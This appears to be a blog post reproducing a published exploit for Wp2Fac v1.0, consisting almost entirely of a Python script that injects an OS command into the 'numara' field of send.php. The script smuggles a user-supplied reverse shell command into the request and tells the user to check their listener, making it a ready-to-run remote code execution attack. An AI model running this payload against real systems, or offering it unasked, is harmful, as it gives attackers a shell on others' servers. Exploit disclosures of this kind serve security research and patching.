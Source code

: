 ```yaml
---
layout: post
title: "Wp2Fac - OS Command Injection"
date: 2024-05-25
category: exploit
---
```


# Exploit Title: Wp2Fac v1.0 - OS Command Injection
# Date: 2023-08-27
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://github.com/metinyesil/wp2fac
# Tested on: Kali Linux & Windows 11
# CVE: N/A



import requests

def send_post_request(host, revshell):
    url = f'http://{host}/send.php'
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0)
Gecko/20100101 Firefox/102.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': f'http://{host}',
        'Connection': 'close',
        'Referer': f'http://{host}/',
    }

    data = {
        'numara': f'1234567890 & {revshell} &;'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.text

host = input("Target IP: ")

revshell = input("Reverse Shell Command: ")

print("Check your listener!")

send_post_request(host, revshell)
            